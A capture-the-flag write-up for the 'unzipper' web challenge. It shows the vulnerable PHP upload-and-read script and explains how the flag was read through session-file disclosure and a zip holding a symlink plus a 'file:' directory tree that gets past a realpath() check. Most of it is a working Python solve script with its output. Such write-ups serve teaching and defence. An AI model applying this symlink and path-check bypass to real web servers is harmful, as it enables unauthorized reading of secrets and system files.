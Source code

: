 # unzipper

**Category**: web \
**Difficulty**: medium \
**Points**: 172 points (49 solves) \
**Author**: hlt

Here, let me unzip that for you.

Download: [unzipper.tar.xz](unzipper.tar.xz)
Connection: http://65.108.176.76:8200/

## Overview

Another small challenge:

```php
<?php
session_start() or die('session_start');

$_SESSION['sandbox'] ??= bin2hex(random_bytes(16));
$sandbox = 'data/' . $_SESSION['sandbox'];
$lock = fopen($sandbox . '.lock', 'w') or die('fopen');
flock($lock, LOCK_EX | LOCK_NB) or die('flock');

@mkdir($sandbox, 0700);
chdir($sandbox) or die('chdir');

if (isset($_FILES['file']))
    system('ulimit -v 8192 && /usr/bin/timeout -s KILL 2 /usr/bin/unzip -nqqd . ' . escapeshellarg($_FILES['file']['tmp_name']));
else if (isset($_GET['file']))
    if (0 === preg_match('/(^$|flag)/i', realpath($_GET['file']) ?: ''))
        readfile($_GET['file']);

fclose($lock);
```

- We can upload a zip, and the server will unzip it for us in a randomly-named
  sandbox directory. They use these `unzip` parameters:
  - `-n`: Do not overwrite existing files when unzipping
  - `-qq`: Quiet output

- We have arbitrary file read: http://65.108.176.76:8200/?file=/etc/passwd
  - However, `realpath()` returns the absolute pathname, resolving relative
    directories and symlinks.
  - The return value of `realpath()` can't contain `flag`, so simply reading
    `/flag.txt` is not possible.

- The lock file is to prevent race conditions with script running in the
  background that periodically deletes uploaded files

## Solution

> Solved with Youssef

First notice that we can use the `PHPSESSID` cookie and read our `$_SESSION` data from `/var/lib/php/sessions/`. This allows us to get `$sandbox`:

```python
import requests
import os

url = "http://65.108.176.76:8200"

s = requests.Session()
res = s.get(url)
sess_id = s.cookies["PHPSESSID"]
print(f"[+] PHPSESSID = {sess_id}")

res = s.get(f"{url}/?file=/var/lib/php/sessions/sess_{sess_id}")
sandbox = res.text.split(":")[-1].split(";")[0][1:-1]
print(f"[+] sandbox = {sandbox}")
```

```
[+] PHPSESSID = t7fl8v188kg8gd0ai3c3be0qq1
[+] sandbox = 29eca32e80f80d0230f27ddcb3a90377
```

Next I tried uploading a symlink to `/flag.txt` inside a zip and reading the symlink using `http://65.108.176.76:8200/?file=/var/www/html/data/{sandbox}/{symlink}`, but that didn't work because `realpath()` simply resolved the path to `/flag.txt`, which failed the check:

```php
    if (0 === preg_match('/(^$|flag)/i', realpath($_GET['file']) ?: ''))
        readfile($_GET['file']);
```

At this point Youssef had to idea of using `file://`.

What if we created a zip file with this directory structure?
```
$ ls --tree file: leak.lnk
file:
└── var
   └── www
      └── html
         └── data
            └── ccf86389404367cb06bab3ba41c71c27
               └── leak.lnk (symlink to /flag.txt)
leak.lnk -> /flag.txt
```

```
root@229a6d68a68b:/var/www/html/data/ccf86389404367cb06bab3ba41c71c27# psysh
Psy Shell v0.11.0 (PHP 7.4.25 _ cli) by Justin Hileman
>>> realpath('file:///var/www/html/data/ccf86389404367cb06bab3ba41c71c27/leak.lnk');
=> "/var/www/html/data/ccf86389404367cb06bab3ba41c71c27/file:/var/www/html/data/ccf86389404367cb06bab3ba41c71c27/leak.lnk"
>>> readfile('file:///var/www/html/data/ccf86389404367cb06bab3ba41c71c27/leak.lnk');
hxp{fleg}
=> 10
```

Notice that `realpath()` does the following translation
```
file:///var/www/html/data/ccf86389404367cb06bab3ba41c71c27/leak.lnk
file:/var/www/html/data/ccf86389404367cb06bab3ba41c71c27/leak.lnk
```
which it interprets as a relative file path. Notice that this `leak.lnk` is not a symlink to `/flag.txt`, but actually just an empty directory.

The actual symlink to `/flag.txt` is located in `/var/www/html/data/ccf86389404367cb06bab3ba41c71c27/leak.lnk`, which `readfile()` will read.

Props to Youssef for coming up with this solution!

```python
import requests
import os

url = "http://65.108.176.76:8200"

s = requests.Session()
res = s.get(url)
sess_id = s.cookies["PHPSESSID"]
print(f"[+] PHPSESSID = {sess_id}")

res = s.get(f"{url}/?file=/var/lib/php/sessions/sess_{sess_id}")
sandbox = res.text.split(":")[-1].split(";")[0][1:-1]
print(f"[+] sandbox = {sandbox}")

symlink = "leak.lnk"
file_url = f"file:///var/www/html/data/{sandbox}/{symlink}"

os.system("rm -rf leak.lnk go.zip file:")
os.system(f"ln -s /flag.txt leak.lnk")
os.system(f"mkdir -p {file_url}")
os.system(f"zip --symlinks -r go.zip file: {symlink}")

files = {"file": open("go.zip", "rb")}
res = s.post(f"{url}", files=files)
res = s.get(f"{url}/?file={file_url}")
print(res.text)
```

```
$ python3 solve.py
[+] PHPSESSID = 10a5nlegdvdl0o99a6e5khkedm
[+] sandbox = a8a188a8460b7a11b7bbad7f2a8562c6
  adding: file:/ (stored 0%)
  adding: file:/var/ (stored 0%)
  adding: file:/var/www/ (stored 0%)
  adding: file:/var/www/html/ (stored 0%)
  adding: file:/var/www/html/data/ (stored 0%)
  adding: file:/var/www/html/data/a8a188a8460b7a11b7bbad7f2a8562c6/ (stored 0%)
  adding: file:/var/www/html/data/a8a188a8460b7a11b7bbad7f2a8562c6/leak.lnk/ (stored 0%)
  adding: leak.lnk (stored 0%)
hxp{at_least_we_have_all_the_performance_in_the_world..._lolphp_:/}
```
